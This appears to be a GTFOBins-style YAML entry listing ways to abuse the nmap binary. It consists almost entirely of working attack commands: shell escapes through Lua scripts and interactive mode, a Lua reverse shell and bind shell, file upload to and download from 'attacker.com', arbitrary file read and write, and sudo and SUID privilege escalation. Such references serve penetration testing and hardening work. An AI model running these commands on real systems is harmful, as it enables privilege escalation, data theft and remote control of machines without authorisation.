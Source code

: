 functions:
  shell:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        nmap --script=$TF
    - description: The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.
      code: |
        nmap --interactive
        nmap> !sh
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        TF=$(mktemp)
        echo 'local s=require("socket");
        local t=assert(s.tcp());
        t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
        while true do
          local r,x=t:receive();local f=assert(io.popen(r,"r"));
          local b=assert(f:read("*a"));t:send(b);
        end;
        f:close();t:close();' > $TF
        nmap --script=$TF
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        export LPORT=12345
        TF=$(mktemp)
        echo 'local k=require("socket");
        local s=assert(k.bind("*",os.getenv("LPORT")));
        local c=s:accept();
        while true do
          local r,x=c:receive();local f=assert(io.popen(r,"r"));
          local b=assert(f:read("*a"));c:send(b);
        end;c:close();f:close();' > $TF
        nmap --script=$TF
  file-upload:
    - description: Send a local file via TCP. Run `socat -v tcp-listen:8080,reuseaddr,fork - on the attacker box to collect the file or use a proper HTTP server. Note that multiple connections are made to the server. Also, it is important that the port is a commonly used HTTP like 80 or 8080.
      code: |
        RHOST=attacker.com
        RPORT=8080
        LFILE=file_to_send
        nmap -p $RPORT $RHOST --script http-put --script-args http-put.url=/,http-put.file=$LFILE
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        TF=$(mktemp)
        echo 'local f=io.open(os.getenv("LFILE"), 'rb')
        local d=f:read("*a")
        io.close(f);
        local s=require("socket");
        local t=assert(s.tcp());
        t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
        t:send(d);
        t:close();' > $TF
        nmap --script=$TF
  file-download:
    - description: Fetch a remote file via TCP. Run a proper HTTP server on the attacker box to send the file, e.g., `php -S 0.0.0.0:8080`. Note that multiple connections are made to the server and the result is placed in `$TF/IP/PORT/PATH`. Also, it is important that the port is a commonly used HTTP like 80 or 8080.
      code: |
        RHOST=attacker.com
        RPORT=8080
        TF=$(mktemp -d)
        LFILE=file_to_save
        nmap -p $RPORT $RHOST --script http-fetch --script-args http-fetch.destination=$TF,http-fetch.url=$LFILE
    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        TF=$(mktemp)
        echo 'local k=require("socket");
        local s=assert(k.bind("*",os.getenv("LPORT")));
        local c=s:accept();
        local d,x=c:receive("*a");
        c:close();
        local f=io.open(os.getenv("LFILE"), "wb");
        f:write(d);
        io.close(f);' > $TF
        nmap --script=$TF
  file-write:
    - code: |
        TF=$(mktemp)
        echo 'local f=io.open("file_to_write", "wb"); f:write("data"); io.close(f);' > $TF
        nmap --script=$TF
    - description: The payload appears inside the regular nmap output.
      code: |
        LFILE=file_to_write
        nmap -oG=$LFILE DATA
  file-read:
    - code: |
        TF=$(mktemp)
        echo 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);' > $TF
        nmap --script=$TF
  sudo:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        sudo nmap --script=$TF
    - description: The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.
      code: |
        sudo nmap --interactive
        nmap> !sh
  limited-suid:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        ./nmap --script=$TF
  suid:
    - description: The payload appears inside the regular nmap output.
      code: |
        LFILE=file_to_write
        ./nmap -oG=$LFILE DATA
---
